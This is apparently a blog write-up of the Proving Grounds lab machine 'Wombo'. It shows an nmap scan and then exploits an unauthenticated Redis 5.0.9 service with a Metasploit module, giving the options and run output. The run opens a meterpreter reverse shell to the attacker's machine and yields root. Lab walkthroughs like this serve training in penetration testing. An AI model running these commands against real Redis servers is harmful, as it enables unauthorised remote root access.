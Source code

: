 ```yaml
---
layout: post
title: PG | Wombo
subtitle: Wombo is full of the freshest hipster tech around.
---
```


# Nmap Scan Results

~~~shell
Starting Nmap 7.94 ( https://nmap.org ) at 2023-10-29 10:17 UTC
Nmap scan report for 192.168.182.69
Host is up (0.014s latency).
Not shown: 65529 filtered tcp ports (no-response)
PORT      STATE  SERVICE    VERSION
22/tcp    open   ssh        OpenSSH 7.4p1 Debian 10+deb9u7 (protocol 2.0)
| ssh-hostkey: 
|   2048 09:80:39:ef:3f:61:a8:d9:e6:fb:04:94:23:c9:ef:a8 (RSA)
|   256 83:f8:6f:50:7a:62:05:aa:15:44:10:f5:4a:c2:f5:a6 (ECDSA)
|_  256 1e:2b:13:30:5c:f1:31:15:b4:e8:f3:d2:c4:e8:05:b5 (ED25519)
53/tcp    closed domain
80/tcp    open   http       nginx 1.10.3
|_http-server-header: nginx/1.10.3
|_http-title: Welcome to nginx!
6379/tcp  open   redis      Redis key-value store 5.0.9
8080/tcp  open   http-proxy
| http-robots.txt: 3 disallowed entries 
|_/admin/ /reset/ /compose
27017/tcp open   mongodb    MongoDB
| mongodb-info: 
|   MongoDB Build info
|     allocator = tcmalloc
|     ok = 1.0
|     storageEngines
|       1 = ephemeralForTest
|       2 = mmapv1
|       3 = wiredTiger
|       0 = devnull

Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 177.71 seconds
~~~

## HTTP (TCP/80)

An Nginx web server is running on port 80

![Wombo](/assets/img/WomboPG(1).png)

I ran a gobuster sub-directory scan and nothing came back so moved onto the next port for enumeration

![Wombo](/assets/img/WomboPG(2).png)

## Redis (TCP/6379)

A Redis database runing version 5.0.9 is being hosted on port 6379, a quick vulnerability search using searchsploit revealed an Unauthenticated Code Execution ([Metasploit 47195.rb](https://www.exploit-db.com/exploits/47195)), there is also a python version of the same exploit [here](https://github.com/Ridter/redis-rce)

![Wombo](/assets/img/WomboPG(3).png)

I started by transferring the exploit from ExploitDB to my metasploit modules
~~~shell
┌──(kali㉿kali)-[~/Desktop/Wombo]
└─$ sudo cp /usr/share/exploitdb/exploits/linux/remote/47195.rb /usr/share/metasploit-framework/modules/exploits/linux/redis
~~~
~~~shell
┌──(kali㉿kali)-[~/Desktop/Wombo]
└─$ msfconsole -m /usr/share/metasploit-framework/modules/

msf6 > loadpath /usr/share/metasploit-framework/modules/

msf6 > reload_all
~~~
I loaded the Metasploit module for the Redis exploit

![Wombo](/assets/img/WomboPG(4).png)

Set the configuration options to match the target and our attack machine for the shell
~~~shell
msf6 exploit(linux/redis/47195) > show options

Module options (exploit/linux/redis/47195):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   CUSTOM    true             yes       Whether compile payload file during exploiting
   PASSWORD  foobared         no        Redis password for authentication test
   RHOSTS    192.168.182.69   yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT     6379             yes       The target port (TCP)


   When CMDSTAGER::FLAVOR is one of auto,tftp,wget,curl,fetch,lwprequest,psh_invokewebrequest,ftp_http:

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SRVHOST  192.168.45.185   yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addres
                                       ses.
   SRVPORT  6379             yes       The local port to listen on.


Payload options (linux/x64/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.45.185   yes       The listen address (an interface may be specified)
   LPORT  8080             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic



View the full module info with the info, or info -d command.
~~~
Run the Exploit and we have a root shell!
~~~shell
msf6 exploit(linux/redis/47195) > run

[*] Started reverse TCP handler on 192.168.45.185:8080 
[*] 192.168.182.69:6379   - Compile redis module extension file
[+] 192.168.182.69:6379   - Payload generated successfully! 
[*] 192.168.182.69:6379   - Listening on 192.168.45.185:6379
[*] 192.168.182.69:6379   - Rogue server close...
[*] 192.168.182.69:6379   - Sending command to trigger payload.
[*] Sending stage (3045380 bytes) to 192.168.182.69
[*] Meterpreter session 2 opened (192.168.45.185:8080 -> 192.168.182.69:49978) at 2023-10-29 14:34:30 +0000
[!] 192.168.182.69:6379   - This exploit may require manual cleanup of './fhgevb.so' on the target

meterpreter > shell
Process 1250 created.
Channel 1 created.
whoami
root
~~~

